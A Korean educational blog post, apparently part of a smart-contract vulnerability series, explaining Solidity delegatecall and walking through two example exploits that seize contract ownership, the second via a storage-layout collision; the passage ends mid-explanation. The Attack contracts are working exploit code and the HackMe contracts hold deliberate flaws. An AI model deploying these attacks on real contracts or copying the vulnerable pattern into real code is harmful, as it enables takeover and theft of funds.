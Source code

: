 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 4) Delegate Call
date: '2021-12-26 22:34:00'
author: 한성원
tags: DelegateCall 취약점 SmartContract
categories: 취약점분석
---
```


# 👋 DelegateCall

## 들어가기전 Call 과 Delegate Call의 차이점
#### Call이란?
Call은 다른 contract와 상호작용하기 위한 low level function이다.

컨트랙트 A를 통해 컨트랙트 B의 함수 호출시 B의 Storage를 변경시키며 msg.sender(호출자)는 컨트랙트A의 주소가 됩니다.
#### Delegate Call이란?
delegate call은 call과 매우 유사하다. delegate은 '위임하다' 라는 뜻으로 call에 대한 권한을 위임한다고 볼 수 있다. 

Delegate Call에는 2가지 특징이 있다.
1. 호출한 contract의 context를 기반으로 동작된다.
2. storage layout은 delegatecall을 이용하는 contract와 같아야한다.

예를 들어 컨트랙트 A를 통해 컨트랙트 B 호출시 B의 Storage를 변경시키지 않고, B의 코드를 A에서 실행합니다. msg.sender와 msg.value가 컨트랙트 A 호출시와 같고, 변동되지 않습니다.

만약 delegate call에 대해 방지하지 않는다면 contract의 내용을 hacker가 마음대로 조종 할 수 있게 될수도 있다. EX) owner변경, ether 가로채기 등등


## Example Code 1

```solidity
contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```
<span style="color:grey">출처: https://solidity-by-example.org/hacks/delegatecall/ </span> 

시나리오는 이렇다.
1. A가 Lib contract 배포
2. A가 Lib의 address를 포함한 HackMe contract 배포
3. __Hacker__ 가 HackMe의 address를 포함한 Attack contract 배포
4. __Hacker__ 가 Attack.attack()을 call
5. HackMe contract의 owner는 Attack contract가 된다.

좀 더 자세히 들여다보겠다. 
__Hacker__ 가 Attack.attack를 call하게 되면 HackMe contract의 fallback function이 실행된다. Fallback function에는 lib를 쓰기 위한 Delegate Call이 존재한다. Attack.attack에서 "pwn()"을 보냈기 때문에 Lib contract의 pwn이 실행된다. 
이때 delegate call로 call하였기 때문에 msg.sender은 Attack contract가 된다. 이렇게되면 Attack contract가 HackMe의 주인이 된다.

- - -

## Example Code 2 
Example Code 2에서는 좀 더 현실적인 code를 보도록 하겠다.
``` solidity
contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // Make sure the storage layout is the same as HackMe
    // This will allow us to correctly update the state variables
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // override address of lib
        hackMe.doSomething(uint(uint160(address(this))));
        // pass any number as input, the function doSomething() below will
        // be called
        hackMe.doSomething(1);
    }

    // function signature must match HackMe.doSomething()
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```
<span style="color:grey">출처: https://solidity-by-example.org/hacks/delegatecall/ </span> 

시나리오는 위와 비슷하다.
1. A가 Lib contract 배포
2. A가 Lib의 address를 포함한 HackMe contract 배포
3. __Hacker__ 가 HackMe의 address를 포함한 Attack contract 배포
4. __Hacker__ 가 Attack.attack()을 call
5. HackMe contract의 owner는 Attack contract가 된다.

좀 더 자세히 들여다보면 이렇다.
첫번째로 주시해야할 부분은 변수들이다. 


```toc

```